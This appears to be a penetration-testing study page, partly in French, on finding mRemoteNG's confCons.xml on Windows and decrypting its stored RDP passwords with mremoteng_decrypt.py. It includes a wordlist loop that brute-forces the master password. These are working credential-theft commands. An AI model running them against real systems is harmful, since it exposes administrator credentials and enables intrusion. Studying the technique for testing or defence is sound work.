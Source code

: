 # Installed Applications / mRemoteNG

### <mark style="color:red;">Installed Applications</mark>

<mark style="color:green;">**Identifying Common Applications**</mark>

```cmd-session
dir "C:\Program Files"
```

<mark style="color:green;">**Get Installed Programs via PowerShell & Registry Keys**</mark>

<pre class="language-powershell" data-full-width="true"><code class="lang-powershell"><strong>$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
</strong>$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
</code></pre>

{% hint style="info" %}
We can see the `mRemoteNG` software is installed on the system. [mRemoteNG](https://mremoteng.org) is a tool used to manage and connect to remote systems using VNC, RDP, SSH, and similar protocols. Let's take a look at `mRemoteNG`.
{% endhint %}

<mark style="color:green;">**mRemoteNG**</mark>

By default, the configuration file is located in `%USERPROFILE%\APPDATA\Roaming\mRemoteNG`.

<mark style="color:green;">**Discover mRemoteNG Configuration Files**</mark>

```powershell-session
ls C:\Users\julio\AppData\Roaming\mRemoteNG
```

Let's look at the contents of the `confCons.xml` file.

<mark style="color:green;">**mRemoteNG Configuration File - confCons.xml**</mark>

{% code fullWidth="true" %}
```xml
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEdedcgDNO6N41Srqe" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389"
    ..SNIP..
</Connections>
```
{% endcode %}

**1️⃣ Ce que fait mRemoteNG**

* C’est un programme qui stocke des connexions (RDP, SSH, etc.).
* Les identifiants sont dans un fichier XML (`confCons.xml`).
* Le **mot de passe du compte distant** est chiffré.
* Pour le chiffrer, mRemoteNG utilise **un mot de passe maître** (master password).
  * **Si l’utilisateur n’en met pas** → mot de passe maître par défaut connu.
  * **S’il en met un** → il faut le connaître pour déchiffrer.

***

**2️⃣ Les deux données importantes**

Dans le fichier XML, tu as :

* **`Protected`** → c’est le mot de passe maître (lui-même chiffré).
* **`Password`** → c’est le mot de passe du compte distant (chiffré avec le mot de passe maître).

<mark style="color:green;">**Decrypt the Password with mremoteng\_decrypt**</mark>

{% code fullWidth="true" %}
```shell-session
python3 mremoteng_decrypt.py -s "sPp6b6T...8NEBMcQ6UnuOdkerig==" 
```
{% endcode %}

Now let's look at an encrypted configuration file with a custom password. For this example, we set the custom password `admin`.

<mark style="color:green;">**mRemoteNG Configuration File - confCons.xml**</mark>

{% code fullWidth="true" %}
```xml
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="1ZR9DpX3eXumopcnjhTQ7e78u+SXqyxDmv2jebJg09pg55kBFW+wK1e5bvsRshxuZ7yvteMgmfMW5eUzU4NG" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="False" 
    
<SNIP>
</Connections>
```
{% endcode %}

If we attempt to decrypt the `Password` attribute from the node `RDP_Domain`, we will get the following error.

<mark style="color:green;">**Attempt to Decrypt the Password with a Custom Password**</mark>

{% code fullWidth="true" %}
```shell-session
python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA=="
```
{% endcode %}

If we use the custom password, we can decrypt it.

<mark style="color:green;">**Decrypt the Password with mremoteng\_decrypt and a Custom Password**</mark>

{% code fullWidth="true" %}
```shell-session
python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p admin
```
{% endcode %}

<mark style="color:green;">**For Loop to Crack the Master Password with mremoteng\_decrypt**</mark>

{% code fullWidth="true" %}
```shell-session
for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done    
```
{% endcode %}
